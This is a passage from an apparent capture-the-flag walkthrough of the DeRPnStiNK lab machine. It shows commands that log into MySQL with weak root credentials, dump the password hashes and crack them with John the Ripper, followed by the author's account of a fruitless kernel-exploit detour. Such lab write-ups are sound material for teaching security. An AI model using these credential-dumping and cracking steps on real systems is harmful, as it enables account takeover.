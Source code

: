 Next I was able to connect to mysql and dump some passwords. Since the user/pass combo was so simple, I decided to go right for the gold and connect to mysql db directly:

```
www-data@DeRPnStiNK:/var/www/html/weblog$ mysql -uroot -pmysql mysql
mysql> select user, host, password from user;
+------------------+------------------+-------------------------------------------+
| user             | host             | password                                  |
+------------------+------------------+-------------------------------------------+
| root             | localhost        | *E74858DB86EBA20BC33D0AECAE8A8108C56B17FA |
| root             | derpnstink       | *E74858DB86EBA20BC33D0AECAE8A8108C56B17FA |
| root             | 127.0.0.1        | *E74858DB86EBA20BC33D0AECAE8A8108C56B17FA |
| root             | ::1              | *E74858DB86EBA20BC33D0AECAE8A8108C56B17FA |
| debian-sys-maint | localhost        | *B95758C76129F85E0D68CF79F38B66F156804E93 |
| unclestinky      | derpnstink.local | *9B776AFB479B31E8047026F1185E952DD1E530CB |
| phpmyadmin       | localhost        | *4ACFE3202A5FF5CF467898FC58AAB1D615029441 |
+------------------+------------------+-------------------------------------------+
7 rows in set (0.00 sec)

Next I popped these hashes into a file for cracking:

```
root@kali:[~/derpnstink]: 
[Exit: 0] 00:25: cat johnmysql.txt 
root:*E74858DB86EBA20BC33D0AECAE8A8108C56B17FA
root:*E74858DB86EBA20BC33D0AECAE8A8108C56B17FA
root:*E74858DB86EBA20BC33D0AECAE8A8108C56B17FA
root:*E74858DB86EBA20BC33D0AECAE8A8108C56B17FA
debian-sys-maint:*B95758C76129F85E0D68CF79F38B66F156804E93
unclestinky:*9B776AFB479B31E8047026F1185E952DD1E530CB
phpmyadmin:*4ACFE3202A5FF5CF467898FC58AAB1D615029441
...
[Exit: 0] 21:01: john --users='unclestinky' --fork=3 --format=mysql-sha1 johnmysql.txt  
...
root@kali:[~/derpnstink]: 
[Exit: 0] 21:01: john --show johnmysql.txt 
root:mysql
root:mysql
root:mysql
root:mysql
unclestinky:wedgie57
phpmyadmin:admin
```

## Whoops

This is where I made my mistake. The `root/mysql` combo cracked very quickly. I started looking at other things, and missed it when john cracked the password for `unclestinky`. I thought I hit a dead end, and I wasted a **_TON of time._**

I looked at a million kernel exploits, and compiled and tried all of the ones I thought would work. I enumerated the box by hand and with two enumeration scripts. I was sure I missed something important, so I pored over those results and manually inspected the box as well. I looked at every cron job on the box, grepping for file paths in them, and checking permissions to see if I could hijack one, even though I suspected the enumeration scripts I ran probably already did that. I was stumped. I went back to the well with HTTP and chased all the red herrings. I tried to hijack mysql just to become a different user, because I thought I hit a wall with `www-data`. I let one kernel exploit run overnight, out of sheer desperation, because I figured if I could get root I could get all the flags. While that may be true, it ultimately only stalled my progress. The exploit I let run did succeed, but to my chagrin, it was a POC so although it got a root shell, _I_ never got access to that shell.

> Contradictions do not exist. Whenever you think you are facing a contradiction, check your premises. You will find that one of them is wrong.

```